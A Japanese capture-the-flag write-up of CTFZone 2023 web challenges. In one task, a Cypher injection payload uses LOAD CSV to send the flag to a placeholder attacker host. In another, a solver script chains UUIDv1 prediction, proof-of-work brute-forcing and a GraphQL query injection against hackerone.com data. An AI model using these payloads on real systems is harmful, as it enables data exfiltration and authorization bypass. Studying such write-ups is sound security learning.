

# CTFZone 2023 Quals Writeup

CTFZone 2023 Quals（<https://ctftime.org/event/1955>）に参加しました。  
土, 12 8月 2023, 18:00 JST — 月, 14 8月 2023, 06:00 JST

取り組んだ時間が短かったので（問題も難しかったので）、3問しか解けなかったです。  
Bounty the B4rに時間がかかりすぎて、他の問題に取り組めなかったです。  
後で復習したいですが、他のWriteupがあんまり無いのでやれたら追記したいと思います。

<!-- @import "[TOC]" {cmd="toc" depthFrom=2 depthTo=3 orderedList=false} -->

<!-- code_chunk_output -->

- [Web/Dead or Alive](#webdead-or-alive)
  - [余談：Web/Dead or Alive](#余談webdead-or-alive)
- [Web/Dead or Alive 2](#webdead-or-alive-2)
  - [別解：Web/Dead or Alive 2](#別解webdead-or-alive-2)
- [（未完）Web/Under construction](#未完webunder-construction)
- [Web/Bounty the B4r](#webbounty-the-b4r)
  - [powの計算](#powの計算)
  - [レポートIDの推測](#レポートidの推測)
  - [権限を付与する](#権限を付与する)
  - [ソルバ](#ソルバ)

<!-- /code_chunk_output -->

## Web/Dead or Alive

100point

[Web/Dead or Alive 2](#webdead-or-alive-2)とソースコードが同じで、neo4jが使われている。  
入力画面で症状を複数選択して送信すると、診断結果（病名？）が出力されるシステムみたい。  


フラグがどこにあるのか一見わからなかったので、ローカル環境で動作を確認してみる。  
データベースのダンプが含まれており、`cypher-shell`で確認してみると、2種類のFLAGがあることがわかった。

```sh
$ cypher-shell -u neo4j
password: ********
Connected to Neo4j 4.1.0 at neo4j://localhost:7687 as user neo4j.
Type :help for a list of available commands or :exit to exit the shell.
Note that Cypher queries must end with a semicolon.
neo4j@hospitalgraph> MATCH (n) RETURN n;
+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| n                                                                                                                                                                                                        |
+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
<SNIP>
| (:Disease {name: "Bipolar disorder", description: "Bipolar disorder is a mental health disorder characterized by extreme mood swings."})                                                                 |
| (:Disease {name: "Schizophrenia", description: "Schizophrenia is a mental health disorder characterized by delusions, hallucinations, and other symptoms."})                                             |
| (:Disease {name: "Obsessive-compulsive disorder (OCD)", description: "Obsessive-compulsive disorder (OCD) is a mental health disorder characterized by obsessive thoughts and compulsive behaviors."})   |
| (:Disease {name: "Death", description: "You are dead, You receive a posthumous flag: ctfzone{REDACTED}"})                                                                                                |
| (:Patient {name: "dummyuser", weight: 70, yearOfBirth: 2001, since: 2023-07-09, ssn: "000000000"})                                                                                                       |
| (:Flag {flag: "ctfzone{REDACTED}"})                                                                                                                                                                      |
+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

45 rows available after 62 ms, consumed after another 9 ms
```

`:Flag`を取れるならもう一つの方も取れるはずなので、一問目は`:Disease {name: "Death"...}`の方のFLAGを目指す。

- app.js

```js:app.js
<SNIP>
async function getDiagnosis(ssn){
    const session = driver.session();
    const q = `
        // get patient symptoms as array
        MATCH (p:Patient {ssn: '${ssn}'})-[:HAS]->(s:Symptom)-[:OF]->(d:Disease)
        WITH d, collect(s.name) AS p_symptoms
        
        // looking for a match of the patient's symptoms in the symptoms of diseases
        MATCH (d)<-[:OF]-(d_symptom:Symptom)
        WITH d, p_symptoms, collect(d_symptom.name) as d_symptoms
        WHERE size(p_symptoms) = size(d_symptoms)
        RETURN d.name, d.description
    `;
    const result = await session.run(q).catch(() => {});
    session.close();
    return result?.records.map((record) => ({
            name: record.get('d.name'),
            description: record.get('d.description')
    }));
}
<SNIP>
```

ログを出しながら調べてみたら、診断結果が`Death`となった時に一つ目のFLAGが出力されるっぽい。  
最終的に、ユーザが入力した症状の数が、Deathに関連する症状の数と一致されられれば良さそう。  
`WHERE size(p_symptoms) = size(d_symptoms)`

```sh
neo4j@hospitalgraph> MATCH (d:Disease {name: "Death"})
                     MATCH (d)<-[:OF]-(d_symptom:Symptom)
                     WITH collect(d_symptom.name) as d_symptoms
                     RETURN size(d_symptoms);
+------------------+
| size(d_symptoms) |
+------------------+
| 32               |
+------------------+
```

Cypher shellがよくわかっていないので、いろいろやってみた結果、32個の症状があると`Death`になるっぽい。  
入力画面から選択できる症状も32個のため、全部選択すれば良いらしい。

- レスポンス

```json
{"status":"Diagnosis found","message":[{"name":"Influenza","description":"Influenza is a viral infection that attacks your respiratory system — your nose, throat and lungs."},{"name":"Pneumonia","description":"Pneumonia is an infection that inflames the air sacs in one or both lungs."},{"name":"Death","description":"You are dead, You receive a posthumous flag: ctfzone{C4n_Th3_D34D_Pl4y_CTF?}"},<SNIP>]}
```

- Flag

```text
ctfzone{C4n_Th3_D34D_Pl4y_CTF?}
```

### 余談：Web/Dead or Alive

ssnによってユーザ判別をしているが、問題サーバにデータが残ったままのため、他の人が実施したssnを使うとFLAGがそのまま出てたみたい。

## Web/Dead or Alive 2

今度は`:Flag {flag:...}`を目指す。  
ソースをよく見ると、ユーザが変更できるパラメータの`ssn`と`symptoms`でCypher Injectionができそう。  

- app.js

```js:app.js
<SNIP>
async function setSymptoms(ssn, symptoms){
    const session = driver.session();
    let q = `
        MATCH (p:Patient {ssn: '${ssn}'})
        MATCH (s:Symptom) WHERE s.name in [${symptoms}]
        MERGE (p)-[r:HAS]->(s)
    `;
    return session.run(q)
            .catch(() => {})
            .then(() => session.close());
}
<SNIP>
```

`ssn`は9文字しか入れられないので、`symptoms`を使えば良さそう。  
Cypher Injectionは初めてやるので、HackTricksのサイトを見ながらローカルで試行錯誤した。  
<https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j>

`LOAD CSV`を使うことで、外部サイトにリクエストを送信できるっぽいので、以下のようなペイロードを作成。

```text
Fever'] MATCH (f:Flag) WITH f.flag as ff LOAD CSV FROM 'https://<attacker>/'+ff AS y//
```

サーバ側では以下のようなクエリが実行される。  
MATCHが複数ある場合は、直前のMATCHの結果がTrueにならないと以降が実行されないっぽいので少しはまった。  
`1 OR 1`を挟めばもっと楽だったぽい。

```text
MATCH (p:Patient {ssn: '0000test'})
MATCH (s:Symptom) WHERE s.name in ['Fever'] MATCH (f:Flag) WITH f.flag as ff LOAD CSV FROM 'https://<attacker>/'+ff AS y//
MERGE (p)-[r:HAS]->(s)
```

最終的に以下のようなリクエストを送信すると、サーバにFLAGが送られてくる。

```http
POST /api/setSymptoms HTTP/2
Host: dead-or-alive.ctfz.one
Content-Length: 134
Sec-Ch-Ua: 
Accept: application/json
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Sec-Ch-Ua-Platform: ""
Origin: https://dead-or-alive.ctfz.one
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://dead-or-alive.ctfz.one/
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

{"ssn":"test","symptoms":["Fever'] MATCH (f:Flag) WITH f.flag as ff LOAD CSV FROM 'https://<attacker>/'+ff AS y//"]}
```

- FLAG

```text
ctfzone{N0w_Y0u_4re_C0mpl3t3ly_H34lTy!}
```

### 別解：Web/Dead or Alive 2

応答差分から一文字ずつの判定もできたっぽい。

`Fever'] OR 1=1 MATCH (f:Flag) WHERE f.flag STARTS WITH '{flag+c}'//`

## （未完）Web/Under construction

points 221

PuppeteerとService Workerが使われている問題。  
Dockerfileを確認すると、どうにかしてOSコマンドを実行する問題と思われる。

```dockerfile:Dockerfile
<SNIP>
RUN echo "ctfzone{REDACTED}" > /root/flag.txt
RUN echo "ubuntu ALL = (root) NOPASSWD: /bin/cat /root/flag.txt" >> /etc/sudoers
<SNIP>
```

ソースコードの量は少なかったが、Service Workerの問題っぽかったので早々に諦めた。

## Web/Bounty the B4r

points 283

取り組んだ時間の大半をこの問題に使いました。  
APIサーバ：Golang、フロント：Typescript + Reactのサイト。

手始めにFLAGがどこにあるか調べる。

- golang/db/database.go

```go:database.go
<SNIP>
func (db Database) InitFlagReport(flag string) error {
	var report Report
	res := db.Impl.First(&report, "id = ?", 1)

	// First run, create the flag report
	if res.RowsAffected == 0 {
		prUUID, err := uuid.NewUUID()
		if err != nil {
			return err
		}

		program := BBProgram{
			ID:   prUUID.String(),
			Name: "CTFZone Private Program",
			Type: ProgramTypePrivate,
		}

		res = db.Impl.Create(&program)
		if res.Error != nil || res.RowsAffected != 1 {
			return fmt.Errorf("error inserting program to the db: %v", res.Error)
		}

		_, err = db.CreateReport(
			"Very Secret Report~",
			"Flag: "+flag,
			program.ID,
			"Critical",
			"CWE-1",
			7446744073709551610,
		)
		if err != nil {
			return nil
		}
	}
	return nil
}
```

Secret ReportにFLAGが含まれるため、このレポートの取得を目指せば良さそう。  
また、該当のレポートを出力する箇所を探すと、以下の箇所が見つかる。

- golang/controller/report.go

```go:report.go
<SNIP>
func (s *server) GetReportRUuid(w http.ResponseWriter, r *http.Request, rUuid uuid.UUID, params api.GetReportRUuidParams) {
	userID := getUserID(r)
	var user db.Users
	s.db.Impl.Find(&user, "id = ?", userID)

	if user.Pow != params.Pow {
		api.HandleError(fmt.Errorf("wrong proof of work"), w)
		return
	}

	user.Pow = getRandomString(9)
	s.db.Impl.Save(&user)

	strUuid := rUuid.String()
	var report db.Report
	result := s.db.Impl.First(&report, "uuid = ?", strUuid)

	if result.Error != nil {
		api.HandleError(fmt.Errorf("wrong report id"), w)
		return
	}
	var bbProgram db.BBProgram
	s.db.Impl.First(&bbProgram, "id = ?", report.Program)

	if bbProgram.Type == ProgramTypePrivate {
		var progMembers db.ProgramMembers
		result = s.db.Impl.First(&progMembers, "user_id = ? AND program_id = ?", userID, bbProgram.ID)
		if result.Error != nil || result.RowsAffected != 1 {
			api.HandleError(fmt.Errorf("you're not a member of this program"), w)
			return
		}
	}

	resp := api.GetReportResponse{Title: &report.Title, Description: &report.Description, Severity: &report.Severity, Weakness: &report.Weakness, Published: &report.Published, ProgramId: &bbProgram.ID, ProgramName: &bbProgram.Name}
	api.EncodeResponse(w, resp)
}
<SNIP>
```

- GET /report/{r_uuid}

処理の流れとしては以下の通り。

1. ユーザからの入力として、`pow`と`r_uuid`を受け取る。
2. `pow`の値がユーザーの`Pow`と一致するか確認し、正しい場合は次の処理に進む。（この時、ユーザの`Pow`を新しい値に更新する）
3. `r_uuid`の値からレポートを検索し、一致するIDのレポートがあれば次の処理に進む。
4. レポートの閲覧に必要な権限がユーザにあるか確認し、権限がある場合にレポートの内容を出力する。

### powの計算

API呼び出しが連続でできないように、ユーザの`pow`が必要らしい。  

```text
Proof of work check
Send the original string (starts with uwLNs....) such as md5(uwLNs....) = 61b75dd428a007fa089f261c8853c847
```

`pow`の計算は以下のような処理になっている。  
呼び出しは`getRandomString(9)`。

```go
func getRandomString(l int) string {
	buff := make([]byte, int(math.Ceil(float64(l)/float64(1.33333333333))))
	rand.Read(buff)
	str := base64.RawURLEncoding.EncodeToString(buff)
	return str[:l]
}
```

`base64.RawURLEncoding.EncodeToString`を使うと、引数が英数字と`/+=-_`の文字列で表される。  
`pow`は9文字であり、先頭5文字は明示されるため、実際には4文字分かればよい。  
また、正しい`pow`のmd5のハッシュ値も明示されるため、総当たりで求めることができる。

### レポートIDの推測

レポートを取得するためにはIDが必要だが、レポート生成時にしか出力されないため、そのままではレポートIDは不明。  
ローカルでレポートIDを確認すると、UUIDv1で生成されていることがわかる。  
また、各APIのレスポンスを確認すると、グループのID（UUIDv1）やレポートの作成タイムスタンプが含まれている。

UUIDのv1は以下のような構造になっている。  
参考：<https://www.uuidtools.com/uuid-versions-explained#version-1>

```text
ad1cec14-3830-11ee-b365-0255ac100030
<low_time>-<mid_time>-<high_and_version>-<clock_seq_and_reserved>-<node>
```

試しにグループIDを見てみると、先頭4バイト（low_time）のみ異なっている。

```json
{"id":"ad1cec14-3830-11ee-b365-0255ac100030","name":"CTFZone Private Program","programType":1}
{"id":"ad1d822a-3830-11ee-b365-0255ac100030","name":"Hooli Public BB Program","programType":0}
```

low_timeはUUID生成時刻の下位32ビットであり、レポートの作成タイムスタンプから求めることができる。  
他はグループIDと同じ値のはずなので、レポートIDを推測することができる。

以下計算。
参考：<https://stackoverflow.com/questions/7153844/uuid1-from-utc-timestamp-in-python>

```python
nanoseconds = 1691749220902427748 # レポート作成タイムスタンプ
timestamp = int(nanoseconds//100) + 0x01b21dd213814000
l = hex(timestamp & 0xffffffff)
m = hex((timestamp >> 32) & 0xffff)
h = hex((timestamp >> 48) & 0x0fff)
print(f'{l[2:]}-{m[2:]}-1{h[2:]}')
# ad1d3d15-3830-1ee
```

- ad1d3d15-3830-11ee-b365-0255ac100030
  - 念のため[Decoder](https://www.uuidtools.com/decode)でも確認し、問題なさそうだった。
  - 100ナノ秒毎に1増えるので、実際にはad1d3d15～ad1d3d20ぐらいの間だと思われる。

### 権限を付与する

/profile画面にて以下のメッセージを確認できる。  
特定の処理には一定のReputationが必要らしい。  

```text
Some programs are only available for users with high reputation. Import reputation from H1 to hit the ground running! Set the "Intro" field of your profile on H1 and send this string with the request for import to work. Your validator should be a random alphanumeric string of length 35 to prevent cheating.
```

/programs画面に、プライベートプログラム：CTFZone Private Programがあり、これに参加できれば権限チェックは解決しそう。



ソースを見ると、Reputationが100000必要っぽい。

```go:report.go
const PRIV_MIN = 100000
```

```go:program.go
if bbProgram.Type == ProgramTypePrivate && user.Reputation < PRIV_MIN {
  api.HandleError(fmt.Errorf("low reputation, try harder"), w)
  return
}
```

Reputationは以下の箇所で更新している。

- golang/controller/user.go
  - GET /user/import_reputation

```go:user.go
<SNIP>
const userDataQery = `query {
	user(username: "%s") {
	  id
	  username
	  name
	  intro
	  reputation
	  rank
	}
  }`
<SNIP>
func (s *server) PostUserImportReputation(w http.ResponseWriter, r *http.Request) {
	req, err := bindAndValidateImportRepoRequest(r)
	if err != nil {
		api.HandleError(err, w)
		return
	}

	userID := getUserID(r)

	var user db.Users
	s.db.Impl.Find(&user, "id = ?", userID)

	postBody, _ := json.Marshal(map[string]string{
		"query": fmt.Sprintf(userDataQery, *req.Username),
	})

	resp, err := http.Post("https://hackerone.com/graphql", "application/json", bytes.NewBuffer(postBody))

	if err != nil {
		api.HandleError(err, w)
		return
	}

	if resp.StatusCode != 200 {
		api.HandleError(fmt.Errorf("non-200 status code: %d", resp.StatusCode), w)
		return
	}

	defer resp.Body.Close()

	type respData struct {
		Data struct {
			User struct {
				Reputation int
				Intro      string
			}
		}
	}

	var rd respData

	err = json.NewDecoder(resp.Body).Decode(&rd)

	if err != nil {
		api.HandleError(fmt.Errorf("error parsing h1 response: %v", err), w)
		return
	}

	if rd.Data.User.Reputation == 0 || rd.Data.User.Intro == "" {
		api.HandleError(fmt.Errorf("bad response from h1"), w)
		return
	}

	if rd.Data.User.Intro != *req.Validator {
		api.HandleError(fmt.Errorf("incorrect validator"), w)
		return
	}

	user.Reputation = uint64(rd.Data.User.Reputation)
	s.db.Impl.Save(&user)
}
<SNIP>
```

hackerone.comのGraphQL APIを実行して、Reputationを取得しているっぽい。  
ただし、Reputationが100000以上のユーザを指定すれば良さそうだが、不正利用防止のため、introの値を特定の文字数（30～40文字）にする必要がある。

Hackeroneのランキングを見ると、Reputationが100000以上のユーザは2人いるが、introの値が両社とも空のため、そのままだと条件に会わない。
ランキング：<https://hackerone.com/leaderboard/all_time_reputation>

```sh
$ curl -X 'POST' -H 'Content-Type: application/json' --data-binary '{"query":"query {user(username: \"todayisnew\") {id username name intro reputation}}"}' https://hackerone.com/graphql
{"data":{"user":{"id":"Z2lkOi8vaGFja2Vyb25lL1VzZXIvMTg0MjY=","username":"todayisnew","name":"Eric","intro":"","reputation":182399}}}
```

仕方がないので、もう一度ソースを確認すると、送信しているGraphQLのクエリ生成に問題があるため、usernameに`"`を含めることで任意のクエリを送信できそう。  
後は、Goの構造体に合うようなレスポンスが変えるようなクエリを送信できれば良さそう。

これは、GraphQLのエイリアス機能を使うことで何とかなりそう。  
しかも丁度良く、idの文字数が36文字だった。  
試しに、hackerone.comのGraphQL APIに以下のクエリを送ってみると、introとreputationがいい感じに帰ってきた。

```json
{"query":"query {user(username: \"todayisnew\") {intro:id reputation}}"}
```

```sh
$ curl -X 'POST' -H 'Content-Type: application/json' --data-binary '{"query":"query {user(username: \"todayisnew\") {intro:id reputation}}"}' https://hackerone.com/graphql
{"data":{"user":{"intro":"Z2lkOi8vaGFja2Vyb25lL1VzZXIvMTg0MjY=","reputation":182399}}}
```

よって、整合性を合わせて`username`には以下のような値を指定すれば良い。

```text
todayisnew"){intro:id reputation}tmp:user(username:"
```

- リクエストボディ

```json
{"username":"todayisnew\"){intro:id reputation}tmp:user(username:\"","validator":"Z2lkOi8vaGFja2Vyb25lL1VzZXIvMTg0MjY="}
```

実行するとReputationが100000以上になるため、プライベートプログラムに参加できる。

### ソルバ

若干ハードコード気味だが、レポートのIDに変動はなさそうなのでこれでも大丈夫そう。

- solver.py

```py:solver.py
#!/usr/bin/env python
import hashlib
import requests

TARGET = 'https://bounty-the-b4r.ctfz.one'
KEYS = list('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789/+=-_')

def register(user, password):
   requests.post(f'{TARGET}/api/user/register', json={'username': user, 'password': password})

def login(user, password):
  res = requests.post(f'{TARGET}/api/user/login', json={'username': user, 'password': password})
  return res.json().get('token')

def import_reputation(token):
  payload = 'todayisnew"){intro:id reputation}tmp:user(username:"'
  requests.post(f'{TARGET}/api/user/import_reputation', 
                      json={'username': payload, 'validator': 'Z2lkOi8vaGFja2Vyb25lL1VzZXIvMTg0MjY='},
                      headers={'Authorization': f'Bearer {token}'})

def join_program(token, pid):
  requests.post(f'{TARGET}/api/program/{pid}/join', headers={'Authorization': f'Bearer {token}'})

def search_pow(goal, pow):
  for i6 in KEYS:
      for i7 in KEYS:
          for i8 in KEYS:
              for i9 in KEYS:
                  text = pow + i6 + i7 + i8 + i9
                  hash = hashlib.md5(text.encode('utf-8')).hexdigest()
                  if hash == goal:
                    return text

def next_pow(token):
  res = requests.get(f'{TARGET}/api/user/info', headers={'Authorization': f'Bearer {token}'})
  goal = res.json().get('md5')
  pow = res.json().get('pow')
  print(f'goal: {goal}')
  print(f'pow: {pow}')
  return search_pow(goal, pow)

def get_report(token):
  for i in range(0x15, 0x20):
    pow = next_pow(token)
    rid = f'ad1d3d{hex(i)[2:]}-3830-11ee-b365-0255ac100030' 
    print(f'try rid: {rid}')
    res = requests.get(f'{TARGET}/api/report/{rid}?pow={pow}', headers={'Authorization': f'Bearer {token}'})
    if res.status_code == 200:
      print(res.text)
      break

if __name__ == '__main__':
  register('salt001', 'salt001')
  token = login('salt001', 'salt001')
  import_reputation(token)
  join_program(token, 'ad1cec14-3830-11ee-b365-0255ac100030')
  get_report(token)
```

```sh
$ python solver.py
goal: d2002cc57856dfa6570960e59554d939
pow: 68IaQ
try rid: ad1d3d15-3830-11ee-b365-0255ac100030
goal: e2df116d687cfd9089e7c6447edc7fc0
pow: KXH9X
try rid: ad1d3d16-3830-11ee-b365-0255ac100030
goal: d1b4cd0bdb5ad4e83ccd2d83c713f128
pow: l3PyM
try rid: ad1d3d17-3830-11ee-b365-0255ac100030
goal: dce6863131ca51964a862d2205eda7fe
pow: I6PBv
try rid: ad1d3d18-3830-11ee-b365-0255ac100030
goal: 09e9a4777384b973535ab58884995bb4
pow: w-BS2
try rid: ad1d3d19-3830-11ee-b365-0255ac100030
{"description":"Flag: CTFZone{b0un7y_th3_b4r_th3_t4st3_0f_bug5}","programId":"ad1cec14-3830-11ee-b365-0255ac100030","programName":"CTFZone Private Program","published":1691749220902427748,"severity":"Critical","title":"Very Secret Report~","weakness":"CWE-1"}
```

- FLAG

```text
CTFZone{b0un7y_th3_b4r_th3_t4st3_0f_bug5}
```
